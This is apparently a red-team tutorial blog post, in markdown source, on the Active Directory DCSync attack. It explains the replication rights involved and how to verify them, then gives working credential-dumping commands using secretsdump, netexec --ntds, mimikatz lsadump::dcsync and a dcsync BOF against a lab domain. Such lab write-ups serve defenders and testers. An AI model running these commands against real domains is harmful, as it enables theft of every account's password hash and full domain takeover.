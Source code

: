 ```yaml
---
title: ⚔️DACL - DCSync
date: 2025-10-28 01:10:00 +/-TTTT
categories: [DACL]
tags: [DCSync]     # TAG names should always be lowercase
image : /assets/images/dcsyncbackground.png
---
```

> Author : lineeralgebra
{:.prompt-tip}

# DCSync

DCSync = **Domain Controller Synchronization**

an Active Directory environment, Domain Controllers replicate data with each other to ensure consistency. This includes sensitive information such as user credentials and password hashes. Microsoft designed this as a core feature of AD so that authentication and authorization always work across different DCs.

However, this replication mechanism can be abused. The **DCSync attack** allows an adversary with certain directory replication rights to impersonate a Domain Controller and request password data directly from Active Directory. Instead of compromising the Domain Controller itself, the attacker leverages built-in replication functions to extract credentials.

To perform a successful DCSync, an attacker must have at least the following rights:

- **Replicating Directory Changes**
- **Replicating Directory Changes All**
- **Replicating Directory Changes in Filtered Set**

If granted, these rights effectively provide the same power as a Domain Controller, since they allow pulling all password hashes, including those of privileged accounts such as **KRBTGT** and **Domain Admins**.

## DCSync  **happening why?**

Before start lets learn why is happening? where to check and verify?

We have to open `dsa.msc` → ADUC first and make sure its enabled.

1. Go to the **Security** tab.
    - If you don’t see it: in ADUC, click **View → Advanced Features**, then open Properties again.
2. Click **Advanced**.

Now we can go our target to verify

1. We can go our target directly and `right click` and select `Properties`  After u select victim user and check `Permissions` 
    
![alt text](../assets/images/dacl125.png)
    

## DCSync **Verify**

### DCSync **Verify w Bloodhound**

![alt text](../assets/images/dacl126.png)

and u can see we can use secretsdump directly

![alt text](../assets/images/dacl127.png)

## DCSync **Attack (Linux Abuse)**

We can easily do with secretsdump btw

```bash
secretsdump.py lab.local/osman:iloveyou@192.168.1.10
```

![alt text](../assets/images/dacl128.png)

or with netexec `--ntds` module

```bash
nxc smb VALENOR-DC01.lab.local -u osman -p iloveyou --ntds
```

![alt text](../assets/images/dacl129.png)

## DCSync **Attack (C2 Abuse)**

Lets do with mimikatz

```bash
mimikatz lsadump::dcsync /domain:lab.local /user:Administrator
```

![alt text](../assets/images/dacl130.png)

or we can use **dcsync** bof which is more good for OPSEC

```bash
dcsync lab.local Administrator
```

![alt text](../assets/images/dacl131.png)
